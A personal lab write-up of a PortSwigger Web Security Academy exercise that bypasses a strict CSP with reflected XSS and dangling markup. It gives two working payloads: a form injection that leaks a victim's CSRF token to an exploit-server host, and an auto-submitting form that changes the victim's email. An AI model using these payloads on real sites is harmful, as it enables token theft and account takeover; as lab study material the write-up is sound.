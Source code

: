 # LAB: Reflected XSS protected by very strict CSP, with dangling markup attack

## Objective:

- steal the csrf token of vicim user.
- Use the csrf token of victim to change its email to hacker@evil-user.net

## Key Concepts:

- Use reflected XSS to deliver the exploit to the victim.
- Use dangling markup attack to bypass the CSP and submit a form with the csrf token of victim to change the email of victim.
- The lab is protected by a very strict Content Security Policy (CSP) that prevents inline scripts and external scripts from executing, but it is vulnerable to a reflected XSS attack that allows the attacker to deliver a payload that can exploit the CSP.

## Steps Taken:

1. Login with the provided credentials.
2. View page source of the update email form for any csrf tokens.
3. Change the value of email field using query parameters.
4. Prepare a form payload with dangling markup.
5. Make sure that the form included the hidden csrf token input field innside
   it.
6. Use the exploit server URL in the action attribute of the payload form.
7. Append the payload in the lab URL next to ?email= query and remove the id
   query from payload which is there by default.
8. Copy the payload and deliver the exploit to the victim with the URL as the
   location within script tags.
9. Check the exploit server logs and find the csrf token of the victim which can
   be identified by the IP which is other then your machine IP.
10. Prepare a second payload which will be a simple html page with a form that
    will be redirected to the lab URL followed by the email update endpoint.
11. add the input fields in the html form, both will be hidden. One with the
    email that the lab wants us to change the victim email to, and the other
    will be csrf input field with the value of the victim csrf token that we got
    from the exploit server logs from the previous exploit delivered to the
    victim.
12. Submit the form automatically through the javascript, as soon as the page is
    loaded.
13. Deliver the exploit to the victim using the exploit server and than a
    simulated user is supposed to be visiting the site and his email will be
    changed to the one that we had provided in te 2nd payload's email field
    value.

## Payloads Used:

```html

<!----------Payload 1---------->

"></form>
<form
  class="login_form"
  name="myform"
  method="get"
  action="https://exploit-0a0b0026048e5f7a806202ce016a00e9.exploit-server.net/exploit"
>
  <button class="button" type="submit">Click</button

```

```html
<!----------Payload 2---------->

<html>
  <body>
    <form
      action="https://0a7c00c804525f5180a7034800a300c4.web-security-academy.net/my-account/change-email"
      method="post">
      <input
        type="hidden"
        name="email"
        value="hacker@evil-user.net" />
      <input
        type="hidden"
        name="csrf"
        value="tqjq7kVoT9KYE0ovK4FNYfFTpnJ4srVp" />
    </form>
  </body>
  <script>
    document.forms[0].submit();
  </script>
</html>
```

## Issues Encountered:

- Did not knew if we can change the email field value URL email query value.
- Faced difficulty understanding the information provided in lab description and
  what actually lab needs us to do.

## Solutions/Workarounds:

- Viewed some walkthroughs, cam to know about that we can initiate the exploit
  by reflective XSS on update email field.

## Takeaways:

- For any input field, try changing its value with query parameters if its
  reflected as a DOM source.
- First, focus on getting the csrf token of victim.
- Then create exploit to deliver to victim, which will be a phishing site,
- Submit a hidden form from victim's browser with his csrf token to update his
  email.
